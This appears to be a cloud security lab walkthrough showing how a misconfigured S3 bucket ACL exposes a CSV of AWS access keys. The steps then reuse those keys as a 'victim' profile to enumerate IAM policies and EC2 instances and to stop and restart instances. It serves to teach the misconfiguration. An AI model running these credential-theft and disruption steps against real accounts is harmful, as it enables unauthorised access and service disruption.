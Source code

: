 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://github.com/bvabhishek/misconfigured_acl.git
```
* Go to Directory 

```bash
 cd /misconfigured_acl
```
* change the permission of bucket_finder tool
```bash
chmod 777 bucket_finder.rb
```
* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL and check if there is any attack scenario

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as gloabal variable as we need to use it again

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile_name
```

* Now try listing thew objects

```bash
aws s3 ls s3://$s3bucket --profile your_profile_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://vallabh/etc/ --profile your_profile_name
```

* Download the juicy file (Relative path to your present working directory)

```bash
aws s3 cp s3://vallabh/etc/user.csv /home/we45-abhi/seasides/bucket_finder/ --profile your_profile_name
```
//use sync 

* cat the csv file 

* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile victim
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region us-west-2
```

* lets export the instance id i-083b2833c663866d1

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Copy the Public IP address and paste in browser

```bash
aws ec2 describe-instances --instance-ids $iId --region us-west-2 --query 'Reservations[0].Instances[0].PublicIpAddress' --output text --profile victim

```
* Open new terminal 

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region us-west-2

```
// after a minute start the instance
* Lets stop the instance 

```bash
aws ec2 start-instances --instance-id $iId --profile victim --region us-west-2

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```
